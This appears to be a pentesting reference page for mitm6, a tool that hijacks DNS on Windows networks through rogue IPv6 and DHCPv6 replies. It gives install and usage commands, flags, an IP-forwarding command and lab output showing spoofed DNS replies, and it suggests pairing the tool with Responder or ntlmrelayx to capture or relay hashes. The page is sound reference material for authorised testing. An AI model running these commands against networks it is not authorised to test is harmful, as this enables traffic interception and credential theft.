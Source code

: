 ```yaml
---
title : "Mitm6"
# pre : ' '
description : "mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server."
date : 2020-05-16T14:54:31+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Mitm6

"pwning IPv4 via IPv6" - mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server.

### Installation

```plain
sudo pip3 install mitm6
```

### Usage

```plain
mitm6 [-h] [-i INTERFACE] [-l LOCALDOMAIN] [-4 ADDRESS] [-6 ADDRESS] [-m ADDRESS] [-a] [-v] [--debug] [-d DOMAIN] [-b DOMAIN] [-hw DOMAIN] [-hb DOMAIN] [--ignore-nofqdn]
```

### Flags

```plain
mitm6 - pwning IPv4 via IPv6
For help or reporting issues, visit https://github.com/fox-it/mitm6

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to use (default: autodetect)
  -l LOCALDOMAIN, --localdomain LOCALDOMAIN
                        Domain name to use as DNS search domain (default: use first DNS domain)
  -4 ADDRESS, --ipv4 ADDRESS
                        IPv4 address to send packets from (default: autodetect)
  -6 ADDRESS, --ipv6 ADDRESS
                        IPv6 link-local address to send packets from (default: autodetect)
  -m ADDRESS, --mac ADDRESS
                        Custom mac address - probably breaks stuff (default: mac of selected interface)
  -a, --no-ra           Do not advertise ourselves (useful for networks which detect rogue Router Advertisements)
  -v, --verbose         Show verbose information
  --debug               Show debug information

Filtering options:
  -d DOMAIN, --domain DOMAIN
                        Domain name to filter DNS queries on (Whitelist principle, multiple can be specified.)
  -b DOMAIN, --blacklist DOMAIN
                        Domain name to filter DNS queries on (Blacklist principle, multiple can be specified.)
  -hw DOMAIN, --host-whitelist DOMAIN
                        Hostname (FQDN) to filter DHCPv6 queries on (Whitelist principle, multiple can be specified.)
  -hb DOMAIN, --host-blacklist DOMAIN
                        Hostname (FQDN) to filter DHCPv6 queries on (Blacklist principle, multiple can be specified.)
  --ignore-nofqdn       Ignore DHCPv6 queries that do not contain the Fully Qualified Domain Name (FQDN) option.
```

### Examples

#### ATTENTION

To run mitm6 without interrupting the use of internet from the clients, you need to forward packets do this by running the following besides mitm6.

```plain
watch -n1 sudo sysctl -w net.ipv4.ip_forward=1
```

#### Use tool to route whole network

Tip: use [Responder]({{< ref "responder" >}}) to capture hashes or [NTLMrelayx.py]({{< ref "impacket" >}}) to relay hashes.

```plain
$ sudo mitm6

Starting mitm6 using the following configuration:
Primary adapter: eth0 [00:00:00:00:b3]
IPv4 address: 10.10.10.45
IPv6 address: fe80::a00:27ff:fede:92b3
Warning: Not filtering on any domain, mitm6 will reply to all DNS queries.
Unless this is what you want, specify at least one domain with -d
IPv6 address fe80::4865:1 is now assigned to mac=00:00:00:00:00:29 host=WS10.offsec.nl. ipv4=
IPv6 address fe80::4865:2 is now assigned to mac=00:00:00:00:00:26 host=DC2016.offsec.nl. ipv4=
IPv6 address fe80::4865:3 is now assigned to mac=00:00:00:00:00:27 host=DC2019.offsec.nl. ipv4=
IPv6 address fe80::4865:4 is now assigned to mac=00:00:00:00:00:2b host=kali ipv4=
IPv6 address fe80::4865:5 is now assigned to mac=00:00:00:00:00:31 host=adguard-lab ipv4=
Sent spoofed reply for client.wns.windows.com. to fe80::4865:1
Sent spoofed reply for v10.events.data.microsoft.com. to fe80::4865:1
```

#### Specific target

```plain
sudo mitm6 -i eth0 -hw DC2016.offsec.nl
IPv6 address fe80::4865:2 is now assigned to mac=00:00:00:00:00:26 host=DC2016.offsec.nl. ipv4=
```

### URL list

* [GitHub.com - mitm6](https://github.com/fox-it/mitm6)
